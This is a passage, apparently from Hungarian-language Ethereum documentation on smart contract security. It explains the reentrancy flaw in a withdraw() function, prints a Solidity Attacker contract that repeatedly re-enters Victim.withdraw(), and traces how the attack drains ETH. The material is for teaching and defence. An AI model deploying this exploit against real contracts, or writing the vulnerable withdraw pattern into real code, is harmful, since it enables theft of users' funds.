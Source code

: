 Ahhoz, hogy egy felhasználó ETH-et utalhasson ki, amit korábban a szerződésben tárolt ez a függvény

1. Leolvassa, a felhasználó egyenlegét
2. Elküldi neki az egyenleg összegét ETH-ben
3. Visszaállítja 0-ra az egyenleget, így nem tudja még egyszer kiutalni az összeget.

Ha meghívja egy normál számla (mint a saját MetaMask számlád), akkor az elvártnak megfelelően működik: msg.sender.call.value() egyszerűen ETH-et küld a számládra. Azonban az okosszerződések is tudnak hívásokat intézni. Ha egy egyedi, rosszindulatú szerződés a `withdraw()` függvény meghívója, akkor a msg.sender.call.value() nem csak `amount` összegű ETH-et fog küldeni, hanem implicit módon meghívja a szerződést, hogy elindítsa a kód végrehajtást. Képzeld el ezt a következő rosszindulatú szerződést:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Az Attacker.beginAttack() meghívása egy ciklust fog beindítani, mely valahogy így néz ki:

```
0.) A támadó EOA-ja (external owned account) meghívja a Attacker.beginAttack() függvényt 1 ETH-tel
0.) Az Attacker.beginAttack() beutal 1 ETH-et a Victim-be

  1.) Attacker -> Victim.withdraw()
  1.) Victim leolvassa a balanceOf[msg.sender] értéket
  1.) Victim ETH-et küld Attacker-nek (mely végrehajtja az alapértelmezett függvényt)
    2.) Attacker -> Victim.withdraw()
    2.) Victim leolvassa a balanceOf[msg.sender] értéket
   2.) Victim ETH-et küld Attacker-nek (mely végrehajtja az alapértelmezett függvényt)
      3.) Attacker -> Victim.withdraw()
      3.) Victim leolvassa a balanceOf[msg.sender] értéket
      3.) Victim ETH-et küld Attacker-nek (mely végrehajtja az alapértelmezett függvényt)
        4.) Attacker-nek nincs több gáza, hívás nélkül visszatér
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (már 0 volt az értéke)
  1.) balances[msg.sender] = 0; (már 0 volt az értéke)
```

Az Attacker.beginAttack meghívása 1 ETH-tel egy újbóli belépés támadást fog indítani Victim ellen, ezzel több ETH-et kiutalva, mint amennyit beletesz (melyet más felhasználók egyenlegéből vont le, így a Victim szerződés alulfedezetté válik)

### Hogyan kezeljük az újbóli belépést (a rosszabb mód) \{#how-to-deal-with-re-entrancy-the-wrong-way}
